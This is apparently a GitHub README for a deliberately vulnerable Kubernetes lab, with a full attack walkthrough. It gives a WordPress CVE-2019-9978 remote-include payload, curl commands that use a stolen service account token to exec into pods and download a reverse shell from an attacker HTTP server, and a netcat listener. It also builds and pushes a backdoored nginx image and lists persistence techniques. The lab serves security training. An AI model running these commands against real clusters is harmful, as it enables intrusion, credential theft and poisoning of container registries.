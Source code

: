 # What Is it?
This repository contains an automatically deployed lab for demonstrating attacker capabilities in a kubernetes cluster.

# What you need?
- docker
- kubernetes (via kubeadm on you machine)

# How make it works?

## 1. Up Kubernetes cluster via kubeadm
You can use any guide from the Internet for your system.

## 2. Clone miraclekubernetes repository
```sh
git clone (link)
```

## 3. Execute laboratory-up.sh
This is up all need services\pods\deployments\rbac e.t.c for this lab
```sh
sudo sh laboratory-up.sh
```

## 4. When you done with lab, clear your cluster
This script deletes all kubernetes resources that were created in step 3
```sh
sudo sh laboratory-down.sh
```

# Laboratory diagram
On this diagram you can see map of the lab **Kubernetes Miracle**
![Scheme](./pictures/LabScheme.png)

# Default Attack Scenario

### 1. Init Access on the Wordpress Pod via CVE-2019-9978
In our WordPress application we have the social-warfare plugin installed.
This plugin is vulnerable to CVE-2019-9978 through which RCE can be implemented

1. Up our http server with payloads 
```sh
cd payloads
python3 -m http.server 8080
```

2. Use podlist.php payload to list all pods in default namespace (we can do it cause have service account token with list pods RBAC righs (SA - wordpressowner))
```sh
http://{wordpresspodip\serviceip}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://10.244.0.1:8080/cvewordpress/podlist.php
```
![PodList](./pictures/podlist.png)

We can find mysql pod in our namespace. Let's try to execute the command in it

### 2. Execute command use a misconfiguration of RBAC

1. So, We don't have a shell in wordpress pod. Using whoami we understand that we are working under www-data and we don't have enough rights to execute, but we can read the service account token and try to execute the command in mysql pod using it.
\
\
Try Using Curl for It (Payload in whoami.php)
```sh
curl -k   --http1.1   -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=="   -H "Sec-WebSocket-Version: 13"   -i -N   -H "Connection: Upgrade"   -H "Upgrade: websocket"   -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"   "https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-cvzfh/exec?command=whoami&container=mysql&stdin=true&stdout=true&stderr=true"

```
![Whoami](./pictures/whoami.png)

2. Download revshell on mysql pod:
```sh
curl -k   --http1.1   -H \"Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==\"   -H \"Sec-WebSocket-Version: 13\"   -i -N   -H \"Connection: Upgrade\"   -H \"Upgrade: websocket\"   -H \"Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)\"   \"https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-pbx2f/exec?command=curl&command=-O&command=http://10.244.0.1:8080/revshell/revshell.sh&container=mysql&stdin=true&stdout=true&stderr=true\"
```
![DownloadRevShell](./pictures/revshelldownload.png)
![revshellplacement](./pictures/revshellplacement.png)

3. Activate revshell

Start listening:
```sh
root@master-node:/home/user# nc -lnvp 6666
Listening on 0.0.0.0 6666
```

Get Shell:
![activateshell](./pictures/revshellactivate.png)

4. Recon in mysql pod and find the login and password for database (it is the same as the registry)
\
Use ENV and search output:
```sh
bash-5.1# env
env
HOSTNAME=wordpress-mysql-5dcfb54f74-pbx2f
DOCKER_REGISTRY_PORT_5000_TCP_PORT=5000
MYSQL_ROOT_PASSWORD=123
DOCKER_REGISTRY_PORT_5000_TCP=tcp://10.100.123.183:5000
DOCKER_REGISTRY_PORT=tcp://10.100.123.183:5000
```

### 3. Hijacking nginx image in docker registry
1. List all images in registry
![listimages](./pictures/imageslist.png)
![nginxfound](./pictures/findnginximage.png)

2. So, We found an image nginx, but we don't see such a pod in the list of pods.
\
We can assume that it is in a different namespace. In this case, to be able to execute code in nginx, you need to hijack the container image on the basis of which it is created.

3. Let's build an image based on the basic nginx, but add revshell there with activation when starting the pod
```sh
Dockerfile
FROM nginx:latest

COPY ./revshell.sh /
RUN chmod 777 /revshell.sh

ENTRYPOINT ["/revshell.sh"]
```
\
```sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# ls
Dockerfile  revshell.sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
nginx        latest    4cad75abc83d   2 months ago   192MB
registry     2.6.2     10b45af23ff3   5 years ago    28.5MB
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker build -t docker-registry:5000/nginx:v1 .
[+] Building 0.2s (8/8) FINISHED                                                                                                  docker:default
 => [internal] load build definition from Dockerfile                                                                                        0.0s
 => => transferring dockerfile: 132B                                                                                                        0.0s
 => [internal] load metadata for docker.io/library/nginx:latest                                                                             0.0s
 => [internal] load .dockerignore                                                                                                           0.0s
 => => transferring context: 2B                                                                                                             0.0s
 => [internal] load build context                                                                                                           0.0s
 => => transferring context: 32B                                                                                                            0.0s
 => [1/3] FROM docker.io/library/nginx:latest                                                                                               0.0s
 => CACHED [2/3] COPY ./revshell.sh /                                                                                                       0.0s
 => CACHED [3/3] RUN chmod 777 /revshell.sh                                                                                                 0.0s
 => exporting to image                                                                                                                      0.0s
 => => exporting layers                                                                                                                     0.0s
 => => writing image sha256:b57dcc8bfea120cb3d4705a8a6c280100b43d93ca1e9ce76fb841cbabffd2309                                                0.0s
 => => naming to docker-registry:5000/nginx:v1                                                                                              0.0s
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker push docker-registry:5000/nginx:v1
The push refers to repository [docker-registry:5000/nginx]
c68502e667c2: Pushed 
c8acd88f1e63: Pushed 
eda01226259d: Layer already exists 
fd2315f0cf24: Layer already exists 
ae2a14e88adb: Layer already exists 
27f473333e2f: Layer already exists 
d8d396eadc9a: Layer already exists 
c1a9699c6559: Layer already exists 
ea680fbff095: Layer already exists 
v1: digest: sha256:47024db27b2d6eb27e44bd95a249c2673a4bf7fa2b458cb5339d9f7dbc9ab377 size: 2192
```

As we can see, two layers were added to the image
This is exactly our revshell

4. We wait until the pod is restarted, then our revshell will be activated. \
As part of the lab, you can restart it yourself
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl delete pod nginx -n outsideserver
pod "nginx" deleted
```

5. After restart nginx we get shell and see, that root filesystem is mount on nginx.
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl apply -f podforbackdoorregistry.yaml 
namespace/outsideserver unchanged
pod/nginx created
```

```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.244.0.178 45354
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nginx:/# cat /etc/hostname
cat /etc/hostname
nginx
```

### 4. We make an impact

In this part you have access to the node and can do whatever comes into your head.
For example:
* Static Pods
* kubetcd (invisible pod creation)
* /var/log mount pod
* coredns poison
* cronjobs creation
* Cluster admin binding

Hooray!!!
